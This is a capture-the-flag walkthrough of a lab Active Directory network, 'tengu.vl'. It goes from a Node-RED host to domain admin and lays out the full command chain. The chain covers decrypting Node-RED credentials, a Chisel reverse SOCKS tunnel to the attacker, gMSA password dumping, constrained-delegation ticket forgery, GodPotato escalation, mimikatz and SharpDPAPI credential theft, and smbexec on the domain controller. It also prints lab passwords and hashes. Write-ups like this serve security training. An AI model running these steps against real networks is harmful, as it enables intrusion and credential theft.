### INFO

```
Nmap scan report for 10.10.243.149
Host is up (0.19s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.tengu.vl
| Not valid before: 2024-08-27T13:46:04
|_Not valid after:  2025-02-26T13:46:04
|_ssl-date: 2024-08-28T13:50:03+00:00; -2s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: TENGU
|   NetBIOS_Domain_Name: TENGU
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: tengu.vl
|   DNS_Computer_Name: DC.tengu.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-08-28T13:49:59+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

```
Nmap scan report for 10.10.243.150
Host is up (0.19s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=SQL.tengu.vl
| Not valid before: 2024-08-27T13:46:06
|_Not valid after:  2025-02-26T13:46:06
| rdp-ntlm-info: 
|   Target_Name: TENGU
|   NetBIOS_Domain_Name: TENGU
|   NetBIOS_Computer_Name: SQL
|   DNS_Domain_Name: tengu.vl
|   DNS_Computer_Name: SQL.tengu.vl
|   DNS_Tree_Name: tengu.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-08-28T13:50:38+00:00
|_ssl-date: 2024-08-28T13:50:43+00:00; -2s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

```
Nmap scan report for 10.10.243.151
Host is up (0.19s latency).

PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 86:a2:62:65:84:f4:ec:5b:a8:a8:a3:8f:83:a3:96:27 (ECDSA)
|_  256 41:c7:d4:28:ec:d8:5b:aa:97:ee:c0:be:3c:e3:aa:73 (ED25519)
1880/tcp open  vsat-control?
| fingerprint-strings: 
|   DNSVersionBindReqTCP, RPCCheck: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 1736
|     ETag: W/"6c8-alK4HUX6EE46WSbf+286KDcADEI"
|     Date: Wed, 28 Aug 2024 13:52:45 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="X-UA-Compatible" content="IE=edge" />
|     <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, user-scalable=0"/>
|     <meta name="apple-mobile-web-app-capable" content="yes">
|     <meta name="mobile-web-app-capable" content="yes">
|     <!--
|     Copyright OpenJS Foundation and other contributors, https://openjsf.org/
|     Licensed under the Apache License, Version 2.0 (the "License");
|     this file except in compliance with the License.
|     obtain a copy of the License at
|     http://www.apache.org/licenses/LICENSE-2.0
|     Unless required by applicable law or agreed to in writing, sof
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 204 No Content
|     Access-Control-Allow-Origin: *
|     Access-Control-Allow-Methods: GET,PUT,POST,DELETE
|     Vary: Access-Control-Request-Headers
|     Content-Length: 0
|     Date: Wed, 28 Aug 2024 13:52:46 GMT
|_    Connection: close
```


```
└─# crackmapexec rdp ip_
RDP         10.10.243.149   3389   DC               [*] Windows 10 or Windows Server 2016 Build 20348 (name:DC) (domain:tengu.vl) (nla:True)
RDP         10.10.243.150   3389   SQL              [*] Windows 10 or Windows Server 2016 Build 20348 (name:SQL) (domain:tengu.vl) (nla:True)
```


Ok , The scenario is DC and SQL only got RDP port accessible from external network . And 3rd machine is linux with 1880 http and ssh port opened.




Its Node-Red  ! ```Node-RED is a programming tool for wiring together hardware devices, APIs and online services in new and interesting ways. It provides a browser-based editor that makes it easy to wire together flows using the wide range of nodes in the palette that can be deployed to its runtime in a single-click.```


### NODE_RED





After some enumeration , found some credentials , config files . We can decrypt those  ! [Blog](https://blog.hugopoi.net/en/2021/12/28/how-to-decrypt-flows_cred-json-from-nodered-data/)

ChatGpt Made a cool script to decrypt the creds , Copy that to the victim machine.




```
{"d237b4c16a396b9e":{"username":"nodered_connector","password":"DreamPuppyOverall25"}}nodered_
```

Now , we need to enumerate the network , some ports from the DC and SQL might only be accessible via the internal network . 


Upload Chisel to the machine , and start the reverse socks proxy !


``` Attacker
└─# ./chisel_ server --port 443 --reverse
```


```Victim
$ ./chisel_ client 10.8.0.148:443 R:socks
```


```
└─# proxychains -q impacket-mssqlclient tengu.vl/nodered_connector:DreamPuppyOverall25@10.10.250.86
```




```
use Demo

SELECT * FROM demo.INFORMATION_SCHEMA.TABLES;

select * from Users;
```







Cool ! Its the domain user account ! Lets enumerate AD


```
└─# proxychains bloodhound-python --username t2_m.winters --password Tengu123 --domain tengu.vl --nameserver 10.10.250.85 --domain-controller DC.tengu.vl --collectionmethod all --zip
```


```
└─# ssh t2_m.winters@tengu.vl@10.10.250.87
```

t2_m.winters is member of linux_admin group. So its obvious we are root level user.


We can decode the krb5.keytab file i.e klist file  [with](https://github.com/sosdave/KeyTabExtract) . Lets copy the file to the victim and decrypt .





Its the machine account hash NODERED$ . 


### SQL_SERVER




Now , That's cool. NODERED$ can read gmsa password . We gonna use this tool /  [script](https://github.com/micahvandeusen/gMSADumper)

```
└─# proxychains python gMSADumper.py -u 'NODERED$' -p 'd4210ee2db0c03aa3611c9ef8a4dbf49:d4210ee2db0c03aa3611c9ef8a4dbf49' -d tengu.vl -l dc.tengu.vl
```


```
gMSA01$:::fb7788e6bfa32c568a9dba5490c49575
```




Now , GMSA01$ is allowed to delegate to the SQL_ADMINS group and SQL.TENGU.VL computer. Lets abuse this.




Impersonation administrator didnt worked, So we impersonated T1_M.WINTERS , who is member of SQL_Admins.

```
└─# proxychains -q impacket-getST -spn MSSQLSvc/SQL.tengu.vl -impersonate 'T1_M.WINTERS' -altservice cifs -hashes :fb7788e6bfa32c568a9dba5490c49575 'tengu.vl/gMSA01$' -dc-ip 10.10.172.245
```



```
└─# export KRB5CCNAME=T1_M.WINTERS@cifs_SQL.tengu.vl@TENGU.VL.ccache 
```

Lets login to the sql_server .

```
└─# proxychains -q impacket-mssqlclient -k sql.tengu.vl
```

We are admin and can run system commands , So lets get reverse shell and impersonate cause we got access via the sql server.







Now , We gonna privilege access with  [God Potato exploit !](https://github.com/BeichenDream/GodPotato)


Get Reverse shell as nt/authority !





Lets upload mimikatz and do some post-enumeration !


```
└─# proxychains -q crackmapexec smb 10.10.172.246 -u administrator -H 73db3fdd24bee6eeb5aac7e17e4aba4c --local-auth
```


### DOMAIN_ADMIN

We found that , c.fowler has recently logged-into this machine , and also a process running , So we can run  [sharp_dpapi](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/SharpDPAPI.exe) to gain his credentials . 

```
PS C:\admin> .\SharpDPAPI.exe machinetriage /showall
```




```
└─# proxychains evil-winrm -i 10.10.172.245 -u T0_c.fowler -p UntrimmedDisplaceModify25
```

This account is restricted to auth. with NTLM . Why not use kerberos authentication.


```
└─# proxychains impacket-getST -spn cifs/dc.tengu.vl tengu.vl/T0_c.fowler:UntrimmedDisplaceModify25 -dc-ip 10.10.172.245

└─# export KRB5CCNAME=T0_c.fowler@cifs_dc.tengu.vl@TENGU.VL.ccache 
```

```
└─# proxychains impacket-smbexec -k -no-pass dc.tengu.vl
```


